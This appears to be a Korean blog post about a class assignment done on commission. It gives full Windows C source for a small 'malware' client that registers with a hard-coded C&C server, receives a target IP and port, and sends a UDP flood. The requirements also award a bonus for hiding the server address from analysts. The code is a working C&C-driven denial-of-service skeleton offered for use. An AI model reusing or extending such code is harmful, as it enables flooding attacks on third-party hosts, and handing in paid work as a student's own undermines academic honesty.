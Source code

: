 # 추가요청
* 기존 기능 그대로 python이 아닌 C를 이용하여 작성  
* 작업 환경은 Windows이며 6시간 내로 제출해야 하는 상황  

# 조건(기존과 동일)
* 악성코드는 서버(XXX.XXX.XX.XX)에 XXXX번 포트로
IMHACKER_학번 메시지를 전송한다.[10점]  
* C&C 서버로부터 공격 대상자의 IP와 PORT번호를 받고 공격지에 UDP flooding공격을 수행  
(본인학번을 10번 반복해서 전송한다.) [15점]
* 악성코드는 EXE로 작성한다. [5점]
* [보너스] 악성코드 분석가를 방해하기 위해 클라이언트 모듈 내부에서
서버주소는 인코딩 또는 암호화 기능 추가 [3점]

---
# 접근  
시간이 없었다. 코드 가독성과 효율성은 신경쓰지 않아도 된다는 이야기가 있었으므로 최대한 신속하게 작업을 마무리 했다. Windows환경이므로 Winsock2라이브러리를 사용하였다.

Visual 2017을 기준으로 Winsock2.lib에서 사용되는 ws2_32.lib은 #pragma 전처리문을 통해 포함시킬 수 있다. 라이브러리에서 제공하는 함수들을 적절하게 이용하여 구현 가능하다.

여기서 가장 고민을 많이 했던 부분은 서버에서 Data를 받아올때 원하는 데이터 추출방법 이였다. python이나 다른 언어라면 망설임 없이 정규표현식을 사용했겟지만 C언어에서 정규표현식을 한번도 써본적이 없다... 따라서 Data를 배열에 넣고 반복문을 이용하여 원하는 값을 추출하였다.  
이부분이 가장 아쉽지만 의뢰자가 상관 없다고 이야기 했으므로 망설임 없이 넘겨주었다.

```c

#undef UNICODE
#undef _UNICOD

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <WinSock2.h>

#pragma comment(lib, "ws2_32.lib")

#define BUFFER 1024

char *cnc_serv(char *IP, char *PORT, char* payload){

	WSADATA wsaData;
	SOCKET hServSock;
	struct sockaddr_in servAddr;
	int tmp = sizeof(servAddr);

	char recv_buf[BUFFER];

	if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
		fprintf(stderr, "WSAStartup() failed");
		exit(1);
	}

	if ((hServSock = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP)) < 0) {
		fprintf(stderr, "socket() failed");
		WSACleanup();
		exit(1);
	}

	memset(&servAddr, 0, sizeof(servAddr));
	servAddr.sin_family = AF_INET;
	servAddr.sin_addr.s_addr = inet_addr(IP);
	servAddr.sin_port = htons(atoi(PORT));

	printf("Sending Message to C&C server...\n");
	printf("PAYLOAD = %s\n\n", payload);


	sendto(hServSock, payload, BUFFER, 0, (struct sockaddr *) &servAddr, sizeof(servAddr));

	printf("Success sending payload to C&C server...\n\n");
	printf("RECVFROM C&C Server .....\n");

	memset(&recv_buf, 0, sizeof(recv_buf));
	recvfrom(hServSock, recv_buf, BUFFER, 0, (struct sockaddr *) &servAddr, &tmp);

	return recv_buf;
}

void *target_serv(char *IP, char *PORT, char* payload) {

	WSADATA wsaData;
	SOCKET hServSock;
	struct sockaddr_in servAddr;
	int tmp = sizeof(servAddr);

	char recv_buf[BUFFER];

	if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
		fprintf(stderr, "WSAStartup() failed");
		exit(1);
	}

	if ((hServSock = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP)) < 0) {
		fprintf(stderr, "socket() failed");
		WSACleanup();
		exit(1);
	}

	memset(&servAddr, 0, sizeof(servAddr));
	servAddr.sin_family = AF_INET;
	servAddr.sin_addr.s_addr = inet_addr(IP);
	servAddr.sin_port = htons(atoi(PORT));

	printf("Sending Message to Target server...\n");
	printf("PAYLOAD = %s\n\n", payload);

	sendto(hServSock, payload, BUFFER, 0, (struct sockaddr *) &servAddr, sizeof(servAddr));

	printf("Success sending payload to Target server...\n\n");
}

int main(void)
{
	char t_ip[50];
	char t_port[10];
	char temp[50];
	int ip_len;
	int i=0,j=0;
	int k, l;

	memset(&temp, 0,sizeof(temp));
	memset(&t_ip, 0, sizeof(t_ip));

	char *payload_1 = "IMHACKER_123456789";
	char *payload_2 = "123456789";
	char *target = cnc_serv("114.70.37.17", "10004", payload_1);

	printf("I FOUND TARGET!! : %s\n\n\n", target);
	memcpy(temp, target, strlen(target));
	ip_len = strlen(temp);

	printf("NOW You have to Attack the target server!!!\n\n");

// 타겟의 ip를 추출한다.
	for (i = 0; i < ip_len; i++) {

		if (temp[i] == '_') {

			for (k = i; k < ip_len; k++) {

				if (temp[k] == ':')
					break;

				t_ip[j] = temp[k+1];

				if (t_ip[j] == ':')
					t_ip[j] = NULL;

				j++;
			}
		}
	}
	j = 0;
// 타겟의 port를 추출한다.
	for (i = 0; i < ip_len; i++) {

		if (temp[i] == ':') {

			for (k = i; k < ip_len; k++) {

				if (temp[k] == NULL)
					break;

				t_port[j] = temp[k + 1];
				j++;
			}
		}
	}

	printf("\nTARGET_IP: %s\n", t_ip);
	printf("TARGET_PORT : %s\n", t_port);

	printf("ATTACK!!!\n\n");

	for (i = 0; i < 10; i++)
		target_serv(t_ip, t_port, payload_2);

	printf("SUCCESS!!!\n");

	return 0;
}
```
